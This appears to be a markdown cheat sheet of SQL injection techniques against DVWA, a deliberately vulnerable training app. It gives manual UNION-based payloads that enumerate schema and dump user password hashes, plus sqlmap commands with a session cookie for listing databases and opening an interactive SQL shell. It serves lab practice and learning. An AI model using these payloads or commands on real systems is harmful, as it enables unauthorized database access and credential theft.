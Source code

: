 # SQL Injection 

##### Dump all users 
```sql
%' or '0'='0
```

##### Manual enumeration 

###### Trying to guess column names 
```sql
%' or '0'='0' union select COLUMN_NAME from information_schema.COLUMNS #
```

###### Find the table and column names 
```sql
%' or '0'='0' union select TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS #
```

##### Dumping password hashes 
```sql
%' or '0'='0' union select user, password from dvwa.users #
```

### Automated 
---

### Using sqlmap 

##### Find backend DB
```sh
python ./sqlmap.py -u "http://161.35.202.77/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=d4ool8gsr78mnro6cas6mrlf35; security=low" --dbs
```

##### Getting an interactive sql shell 
```sh
python ./sqlmap.py -u "http://161.35.202.77/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=d4ool8gsr78mnro6cas6mrlf35; security=low" --sql-shell
```
